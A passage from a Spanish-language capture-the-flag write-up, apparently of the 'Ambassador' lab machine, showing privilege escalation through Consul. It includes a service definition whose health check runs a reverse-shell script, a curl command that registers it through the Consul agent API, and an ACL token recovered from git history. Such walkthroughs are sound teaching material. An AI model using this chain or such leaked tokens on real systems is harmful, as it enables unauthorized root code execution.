 ```json
{
  "ID": "marss_service",
  "Name": "rce",
  "Tags": ["primary", "v1"],
  "Address": "127.0.0.1",
  "Port": 80,
  "Check": {
    "DeregisterCriticalServiceAfter": "90m",
    "Args": ["/tmp/.10.10.14.155/reverse.sh"],
    "Interval": "10s",
    "Timeout": "86400s"
  }
}
```

Ejecutamos el comando para subir nuestro servicio y nos aparece lo siguiente:

```console
developer@ambassador:/tmp/.10.10.14.155$ curl -X PUT --data @payload.json \
  http://localhost:8500/v1/agent/service/register?replace-existing-checks=true
Permission denied: token with AccessorID '00000000-0000-0000-0000-000000000002' lacks permission 'service:write' on "redis"
```

Explorando más la documentación tenemos lo siguiente:

> [Consul Authentication](https://developer.hashicorp.com/consul/api-docs/api-structure)

![Consul auth](consul_token.png){: .shadow}

Entonces lo que nos falta es el `token` para poder realizar peticiones y así ejecutar nuestro servicio. Por ello, enumerando el sistema encontramos un repositorio `git` en el directorio `my-app` y revisando los cambios del último log encontramos el token:

```console
developer@ambassador:/opt/my-app$ ls -la
total 24
drwxrwxr-x 5 root root 4096 Mar 13  2022 .
drwxr-xr-x 4 root root 4096 Sep  1 22:13 ..
drwxrwxr-x 4 root root 4096 Mar 13  2022 env
drwxrwxr-x 8 root root 4096 Mar 14  2022 .git
-rw-rw-r-- 1 root root 1838 Mar 13  2022 .gitignore
drwxrwxr-x 3 root root 4096 Mar 13  2022 whackywidget
developer@ambassador:/opt/my-app$ git show
commit 33a53ef9a207976d5ceceddc41a199558843bf3c (HEAD -> main)
Author: Developer <developer@ambassador.local>
Date:   Sun Mar 13 23:47:36 2022 +0000

    tidy config script

diff --git a/whackywidget/put-config-in-consul.sh b/whackywidget/put-config-in-consul.sh
index 35c08f6..fc51ec0 100755
--- a/whackywidget/put-config-in-consul.sh
+++ b/whackywidget/put-config-in-consul.sh
@@ -1,4 +1,4 @@
 # We use Consul for application config in production, this script will help set the correct values for the app
-# Export MYSQL_PASSWORD before running
+# Export MYSQL_PASSWORD and CONSUL_HTTP_TOKEN before running
 
-consul kv put --token bb03b43b-1d81-d62b-24b5-39540ee469b5 whackywidget/db/mysql_pw $MYSQL_PASSWORD
+consul kv put whackywidget/db/mysql_pw $MYSQL_PASSWORD
```
